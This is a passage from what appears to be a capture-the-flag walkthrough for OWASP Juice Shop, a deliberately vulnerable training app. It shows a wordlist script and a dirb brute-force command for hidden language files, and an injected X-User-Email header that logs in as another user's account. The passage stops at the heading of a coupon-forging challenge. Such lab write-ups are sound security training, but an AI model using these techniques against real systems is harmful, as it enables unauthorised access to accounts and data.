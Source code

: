#### 33: "Retrieve the language file that never made it into production."
<span class='badge badge-warning icon icon-history'>solve challenge 5 first</span>

Change the language a few times and look at the HTTP request history.
You can see that the files are located in the /i18n/ folder and that they have a .json ending.
`GET /i18n/sv.json HTTP/1.1`

We can use dirb to run through all the language files, but we need a full word list.
Let's generate our own:
``` python
#!/usr/bin/python

from itertools import product
from string import ascii_lowercase

length = input("Enter length of words to be generated: ")
print "Generating wordlist with length", length

f = open('wordlist.txt', 'w')

for count, i in enumerate(product(ascii_lowercase, repeat=length)):
    f.write(''.join(i) + '\n')
print "words generated: %d" % count

f.close()

```

Let's generate all words with length **3** and then run `dirb` with the following parameters:

``` bash
dirb "http://192.168.99.100:3000/i18n/" wordlist.txt -X .json
```
We can find `tlh.json` with this method and solve the challenge (tlh is Klingon).

#### 34: "Exploit OAuth 2.0 to log in with the Chief Information Security Officer's user account."
<span class='badge badge-warning icon icon-history'>solve challenge 6 first</span>

Login with a valid Google Account and intercept the communication with Burp.
Look at the packet containing the `POST` to `/rest/user/login` and manually add the Header: `X-User-Email: ciso@juice-sh.op`. You can leave the Body like it is `({"email":"something@gmail.com","password":"c29tZXRoaW5nQGdtYWlsLmNvbQ==","oauth":true})`.




## 5 Star Challenges
<div class='block'>
    <span class='badge badge-info icon icon-star'>5</span>
    <span class='badge badge-warning icon icon-alert'>in progress (1/2)</span>
</div>

#### 35: "Forge a coupon code that gives you a discount of at least 80%."
<span class='badge badge-warning icon icon-history'>solve challenge 11 first</span>
